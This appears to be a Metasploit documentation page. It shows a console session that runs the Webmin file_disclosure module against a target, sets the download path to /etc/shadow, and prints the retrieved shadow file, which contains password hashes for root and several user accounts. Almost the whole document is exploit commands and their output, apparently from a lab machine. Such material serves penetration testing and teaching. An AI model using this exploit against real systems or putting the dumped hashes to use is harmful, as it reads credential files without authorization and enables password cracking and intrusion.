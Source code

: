 ``` plain
msf > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

   Name     Current Setting   Required  Description
   ----     ---------------   --------  -----------
   DIR      /unauthenticated  yes       Webmin directory path
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                      yes       The target address
   RPATH    /etc/passwd       yes       The file to download
   RPORT    10000             yes       The target port
   VHOST                      no        HTTP server virtual host


Auxiliary action:

   Name      Description
   ----      -----------
   Download  


msf auxiliary(file_disclosure) > set RPATH /etc/shadow
RPATH => /etc/shadow
msf auxiliary(file_disclosure) > run

[*] [2016.02.24-09:02:11] Attempting to retrieve /etc/shadow...
[*] [2016.02.24-09:02:11] The server returned: 200 Document follows
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
[*] Auxiliary module execution completed
```
